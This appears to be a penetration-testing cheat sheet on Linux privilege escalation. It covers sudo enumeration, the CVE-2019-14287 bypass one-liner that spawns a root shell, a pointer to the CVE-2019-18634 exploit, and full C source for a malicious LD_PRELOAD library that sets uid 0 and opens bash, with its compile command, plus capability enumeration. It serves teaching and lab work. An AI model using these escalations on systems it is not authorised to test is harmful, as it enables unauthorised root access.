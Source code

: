 
### *Sudo:* ###
List which files you have sudo permissions for:

```bash
sudo -l
```

Check on https://gtfobins.github.io/ for anything useful. 
Sometimes the results will contain something custom which you can go on to enumerate, reverse engineer, and exploit.
If the output is something like 'ALL = (jones) /usr/local/bin/mycommand', then we can run 'mycommand' as the 'jones' user. We do this with:

```bash
sudo -u jones /usr/local/bin/mycommand
```

Probably one of the biggest Sudo exploits is [CVE-2019-14287](https://www.exploit-db.com/exploits/47502). If the user has sudo permissions: '(ALL, !root) ALL', this can be exploited. A FULL TTY IS REQUIRED (so stabilise your shell).

```bash
sudo -u#-1 /bin/bash -p
```

One other Sudo CVE is [CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c), which is a buffer overflow exploit. If password feedback is enabled in the /etc/sudoers file with a sudo version of 1.8.26 or below, then the sudo version is vulnerable. Password feedback is when you type a character and an * or symbol shows up to identify that you have typed in a key.


### *LD_PRELOAD SUDO LINE:* ###
Should your SUDO permissions include a line that has 'env_keep+=LD_PRELOAD', then you are able to load in custom code which will run when sudo is called on a valid commmand which your user has sudo access for. The loaded in code itself is run with special permissions, meaning we can set the uid and group id to escalate ourselves to another user (root).:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}

// we compile this with 'gcc -fPIC -shared -o shell.so shell.c -nostartfiles' when our file is called shell.c
```


### *Capabilities:* ###
List all capabilities that applications have:
```bash
getcap -r / 2>/dev/null
```
Check on https://gtfobins.github.io/ for anything useful.
